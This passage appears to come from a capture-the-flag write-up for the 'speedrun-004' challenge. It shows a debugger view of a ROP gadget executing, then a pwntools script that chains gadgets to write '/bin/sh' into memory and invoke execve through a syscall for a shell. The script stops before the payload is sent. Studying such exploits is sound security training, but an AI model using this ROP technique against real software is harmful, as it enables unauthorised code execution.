 After that we can see the beginning of our ROP chain is executed, which gives us code execution:


```
──────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
 →   0x415f04                  pop    rax
     0x415f05                  ret    
     0x415f06                  (bad)  
     0x415f07                  inc    DWORD PTR [rbx-0x6bf00008]
     0x415f0d                  rol    BYTE PTR [rax+rax*8-0x74b7458b], 0x53
     0x415f15                  sub    cl, ch
──────────────────────────────────────────────────────────────────────────────────────── threads ────
```

Putting it all together, we get the following exploit:
```
from pwn import *

target = process('./speedrun-004')
#gdb.attach(target, gdbscript = 'b *0x400baf')

# Establish rop gadgets
popRax = p64(0x415f04)
popRdi = p64(0x400686)
popRsi = p64(0x410a93)
popRdx = p64(0x44a155)

syscall = p64(0x40132c)

ret = p64(0x400416)

# 0x000000000048d301 : mov qword ptr [rax], rdx ; ret
mov = p64(0x48d301)

# bss adress we write to
bss = p64(0x6b6030)

binsh = p64(0x0068732f6e69622f)

# Our Rop chain
# Checkout https://github.com/guyinatuxedo/ctf/tree/master/defconquals2019/speedrun/s1
# for how to make
rop = ""
rop += popRax
rop += bss
rop += popRdx
rop += binsh
rop += mov

rop += popRax
rop += p64(0x3b)

rop += popRdi
rop += bss

rop += popRsi
rop += p64(0)
rop += popRdx
rop += p64(0)

rop += syscall


```